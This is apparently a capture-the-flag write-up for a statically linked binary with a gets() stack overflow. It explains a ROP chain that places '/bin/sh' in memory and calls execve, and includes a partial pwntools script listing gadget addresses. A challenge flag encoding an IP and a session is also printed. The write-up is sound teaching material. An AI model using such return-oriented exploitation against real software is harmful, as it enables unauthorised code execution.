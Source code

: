 # static

> Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNi1zdGF0aWMiLCJpcCI6IjIwMi44Ny4xNjIuMjgiLCJzZXNzaW9uIjoiNDczYjgwYjEtMmI2OC00NWY4LWIzNDctYjIzMjJjYjk4NTQwIn0.22K9FaRxPTQMA_oymzIPC7SO0smL3piS0rNnmgskwek}

## Scenario

The program contains a whole lot of library functions (embedded rather than linked). It has a vulnerable `gets()` function which allows us to overwrite the return address. There is no `"/bin/sh"` string within the binary.

## Solution

The `0x080a8cb6: pop eax; ret;` instruction does not work as it contains an `0x0a` byte (newline character) - which will cause `gets()` to finish reading. To work around this problem, we can `pop edx`, then `mov eax, edx`.

The `0x0806ee5b: push eax; adc al, 0x7c; and dword ptr [esi + 0x1a], edi; pop ebx; ret;` instruction can get around this `gets()` newline limitation, but... nah.

As there is no `"/bin/sh"` string, we will need to load it into the memory through a series of `pop ...` and `mov [...], ...` instructions.

The registers can then be modified to launch an `execve` syscall.

## Script

```python3
from pwn import *

'''
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
'''

"""
0x80488a5 :: be_exploited()

gets(ebp-0xc)
"""

'''
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
0x8048000  0x80d7000 r-xp    8f000 0      /tmp/static
0x80d8000  0x80dc000 rw-p     4000 8f000  /tmp/static
0x80dc000  0x80dd000 rw-p     1000 0      
0x81ed000  0x820f000 rw-p    22000 0      [heap]
0xf7f33000 0xf7f36000 r--p     3000 0     [vvar]
0xf7f36000 0xf7f37000 r-xp     1000 0     [vdso]
0xffdbc000 0xffddd000 rw-p    21000 0     [stack]
'''

"""
0x08055632: mov dword ptr [eax + 4], edx; ret; 
0x0809ceb4: mov dword ptr [eax], edx; ret; 

~~~~0x080a8cb6: pop eax; ret;~~~ Doesn't work because gets() blocks the newline character

0x08064564: mov eax, edx; ret; 

```
